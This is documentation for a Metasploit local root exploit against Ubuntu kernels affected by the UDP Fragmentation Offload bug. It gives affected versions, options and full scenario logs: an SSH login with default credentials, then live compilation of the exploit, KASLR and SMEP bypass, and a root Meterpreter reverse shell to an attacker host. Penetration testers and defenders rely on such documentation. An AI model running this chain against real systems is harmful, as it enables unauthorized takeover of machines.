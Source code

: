 ## Vulnerable Application

This module attempts to gain root privileges on Linux systems by abusing UDP Fragmentation Offload (UFO).
  
The bug was initially introduced in October 2005 and patched in September 2017, potentially affecting a large
number of kernels; however this exploit targets only systems using Ubuntu (Trusty / Xenial) kernels 
4.4.0-21 <= 4.4.0-89 (Trusty), and 4.4.0-81 <= 4.8.0-58 (Xenial), including Linux distros based on Ubuntu
such as Linux Mint.

### Disabling SMAP

[Original Instructions](https://github.com/rapid7/metasploit-framework/pull/9884#issuecomment-389607805)

To disable `SMAP` on a system, edit `/etc/default/grub` and add `nosmap` to the `GRUB_CMDLINE_LINUX_DEFAULT` line.
Next, `sudo update-grub`, and reboot.

To verify SMAP has been disabled, `grep smap /proc/cpuinfo` and nothing should be returned.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable box
  3. Do: ```use exploit/linux/local/ufo_privilege_escalation```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell.

## Options

### WritableDir

  A folder we can write files to.  Defaults to /tmp

### COMPILE
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Compiled Executables

The module makes use of a pre-compiled exploit executable to be
used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executable was cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar).

```bash
./x86_64-linux-musl-gcc -o exploit.out -pie -static exploit.c
```

## Scenarios

### Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop

#### Initial Access

```
resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
resource (ubuntu.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (ubuntu.rb)> set username ubuntu
username => ubuntu
resource (ubuntu.rb)> set password ubuntu
password => ubuntu
resource (ubuntu.rb)> exploit
[+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare) Linux ubuntu-desktop-14 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:07:32 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:45819 -> 2.2.2.2:22) at 2018-04-03 20:58:32 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
msf auxiliary(scanner/ssh/ssh_login) > use exploit/linux/local/ufo_privilege_escalation 
msf exploit(linux/local/ufo_privilege_escalation) > set verbose true
verbose => true
msf exploit(linux/local/ufo_privilege_escalation) > set session 1
session => 1
msf exploit(linux/local/ufo_privilege_escalation) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(linux/local/ufo_privilege_escalation) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Linux kernel version 4.4.0-31-generic is vulnerable
[*] Checking if SMAP is enabled ...
[+] SMAP is not enabled
[+] System architecture x86_64 is supported
[+] Unprivileged user namespaces are permitted
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.4UnI1EFL.c' (28356 bytes) ...
[*] Max line length is 65537
[*] Writing 28356 bytes in 2 chunks of 57414 bytes (octal-encoded), using printf
[*] Next chunk is 43454 bytes
[*] Writing '/tmp/.S6G2g9rnUj' (207 bytes) ...
[*] Max line length is 65537
[*] Writing 207 bytes in 1 chunks of 629 bytes (octal-encoded), using printf
[*] Launching exploit ...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (857352 bytes) to 2.2.2.2
[*] [.] starting
[*] [.] checking kernel version
[*] [.] kernel version '4.4.0-31-generic' detected
[*] [~] done, version looks good
[*] [.] checking SMEP and SMAP
[*] [~] done, looks good
[*] [.] setting up namespace sandbox
[*] [~] done, namespace sandbox set up
[*] [.] KASLR bypass enabled, getting kernel addr
[*] [.] trying /proc/kallsyms...
[*] [.] trying /boot/System.map-4.4.0-31-generic...
[*] [-] open/read(/boot/System.map-4.4.0-31-generic)
[*] [.] trying syslog...
[*] [~] done, kernel addr:   ffffffff81000000
[*] [.] commit_creds:        ffffffff8109d760
[*] [.] prepare_kernel_cred: ffffffff8109da40
[*] [.] SMEP bypass enabled, mmapping fake stack
[*] [~] done, fake stack mmapped
[*] [.] executing payload ffffffff8104516a
[*] [~] done, should be root now
[*] [.] checking if we got root
[*] [+] got r00t ^_^
[*] Cleaning up /tmp/.S6G2g9rnUj and /tmp/.4UnI1EFL ...
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:60474) at 2018-07-21 13:35:49 -0400

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 14.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
